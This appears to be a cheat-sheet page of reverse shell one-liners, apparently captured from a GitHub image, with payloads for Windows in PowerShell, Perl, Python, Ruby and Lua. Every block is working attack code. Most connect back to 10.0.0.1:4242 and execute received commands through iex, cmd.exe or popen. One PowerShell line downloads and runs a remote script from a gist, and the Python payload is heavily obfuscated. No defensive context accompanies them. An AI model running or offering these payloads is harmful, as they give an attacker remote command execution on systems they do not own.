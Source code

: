 ```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

**perl**
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

**ruby**
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**lua**
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
